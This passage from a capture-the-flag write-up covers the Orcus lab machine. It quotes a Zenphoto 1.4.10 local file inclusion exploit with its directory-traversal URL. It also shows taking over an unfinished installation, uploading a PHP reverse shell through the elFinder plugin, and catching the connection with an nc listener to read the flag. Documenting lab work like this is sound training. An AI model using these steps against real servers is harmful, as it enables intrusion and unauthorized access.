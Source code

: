 Moving on. The /cron folder contains a bunch of PHP files that I couldn't get anything interesting from. The /framework folder was another dead end. But when I went to /zenphoto, I saw that the Zenphoto 1.4.10 installation needed a last step of providing database credentials. It was configured with root@localhost and it got an access denied. In searchsploit I saw a local file inclusion exploit for this version of Zenphoto, so I tried to complete the installation with the previously discovered credentials. It worked and I was then prompted to create an admin user, which I did:

{% img center /images/pentest/orcus/admin.png 'zenphoto admin' 'zenphoto admin' %}

Next I looked at the LFI exploit:

```
Exploit: ZenPhoto 1.4.10 - Local File Inclusion
      URL: https://www.exploit-db.com/exploits/38841/
     Path: /usr/share/exploitdb/exploits/php/webapps/38841.txt

Vulnerability Details:
======================
Zen Photos pluginDoc.php PHP file is vulnerable to local file inclusion
that allows attackers
to read arbitrary server files outside of the current web directory by
injecting "../" directory traversal
characters, which can lead to sensitive information disclosure, code
execution or DOS on the victims web server.


Local File Inclusion Codes:
==========================
http://localhost/zenphoto-zenphoto-1.4.10/zp-core/pluginDoc.php?thirdparty=1&extension=../../../xampp
/phpinfo
```

The path didn't work for me. I kept looking around while logged in as admin and noticed a file upload plugin:

{% img center /images/pentest/orcus/plugins.png 'zenphoto upload' 'zenphoto upload' %}

I enabled the elFinder plugin and now I could upload arbitrary files:

{% img center /images/pentest/orcus/upload.png 'zenphoto shell' 'zenphoto shell' %}

## Flag #1 - Standard shell

With the PHP reverse shell uploaded, all I had to do was to go to it in the /uploaded directory and I got a shell and the first flag:

```
nc -vnlp 9000
listening on [any] 9000 ...
connect to [192.168.159.129] from (UNKNOWN) [192.168.159.131] 38806
Linux Orcus 4.4.0-45-generic #66-Ubuntu SMP Wed Oct 19 14:12:05 UTC 2016 i686 i686 i686 GNU/Linux
 12:02:20 up 25 min,  0 users,  load average: 0.07, 0.02, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ ls /var/www
9bd556e5c961356857d6d527a7973560-zen-cart-v1.5.4-12302014.zip
a0c4f0d176f87ceda9b9890af09ed644-Adem-master.zip
b873fef091715964d207daa19d320a99-zenphoto-zenphoto-1.4.10.tar.gz
flag.txt
html
zenphoto-zenphoto-1.4.10
$ cat flag.txt
868c889965b7ada547fae81f922e45c4
```
